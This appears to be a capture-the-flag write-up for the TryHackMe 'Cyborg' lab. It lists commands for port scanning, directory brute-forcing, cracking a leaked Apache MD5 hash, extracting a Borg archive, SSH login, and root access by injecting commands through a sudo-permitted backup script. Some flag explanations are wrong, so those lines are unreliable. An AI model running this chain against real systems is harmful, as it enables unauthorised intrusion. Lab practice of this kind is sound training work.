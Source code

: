 # TRYHACKME – Cyborg (CTF)

![6cc3e134a104210f90367c6557e42b6e.jpeg](img/995dbcf2-4ed1-441d-bde4-bdacabe5636a.png)

![Difficulty](img/Difficulty%2011d906d6ee19808b98d8c82328d0d3be.csv)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![Untitled.png](img/Untitled.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![2024-10-12 02_44_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_44_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Directories found:

/admin

/etc

![2024-10-12 02_45_55-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_45_55-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_53-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_53-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![2024-10-12 02_49_47-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_49_47-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![2024-10-12 02_51_27-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_51_27-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_55_34-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_55_34-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_57_22-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_57_22-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox%201.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![2024-10-12 03_02_04-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_02_04-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![2024-10-12 03_03_59-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_03_59-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat user.txt`**

![2024-10-12 03_05_03-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_05_03-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![2024-10-12 03_06_23-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_06_23-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![2024-10-12 03_11_51-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_11_51-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat backup.sh`**

![2024-10-12 03_13_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_13_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![2024-10-12 03_20_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_20_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![2024-10-12 03_21_40-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_21_40-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)
